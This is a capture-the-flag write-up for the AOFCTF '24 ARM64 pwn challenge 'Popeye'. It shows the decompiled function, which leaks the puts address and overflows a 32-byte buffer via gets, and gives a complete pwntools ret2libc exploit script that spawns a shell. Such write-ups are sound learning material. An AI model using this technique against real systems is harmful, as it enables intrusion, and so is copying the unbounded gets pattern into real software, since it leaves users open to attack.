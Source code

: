 ```yaml
---
title: AOFCTF '24 - Pwn - Popeye
date: '2024-04-29'
tags: ['pwn', 'aofctf', 'arm', 'ret2libc']
draft: false
summary: Given a libc leak, perform a ret2libc on ARM64.
---
```


## Challenge Description

![alt text](/static/writeups/aofctf-24/image-8.png)

## Solution

Popeye was probably the most easiest challenge in AOFCTF, we already had a Libc leak, so we didn't have to do much. Also, it had a straight forward buffer overflow. But, since it was on ARM, most people didn't even try it :((( :welp:

I don't think I even need to explain this chall, so I'll just paste the solve script here, the decompiled code:

```c
void vuln(void)
{
  char acStack_20 [32];

  printf("[To make it easier: %p]\n",puts);
  gets(acStack_20);
  return;
}
```

To solve script is:

```py:exploit.py
#!/usr/bin/env python3

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]

elf = context.binary = ELF("./popeye")
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
libc = ELF("./libc.so.6")

io.recvuntil(b": ")
libc.address = int(io.recvuntil(b"]")[:-1], 16) - libc.sym.puts
info("libc @ %#x" % libc.address)
payload = flat(
    cyclic(40, n=8),
    0x0000000000400944,
    next(libc.search(b"/bin/sh\x00")),
    libc.sym.system
)

io.sendline(payload)
io.interactive()
```

> You just had to extract the LIBC from the provided dockerfile (you could get the aarch64 libc using my script ;))
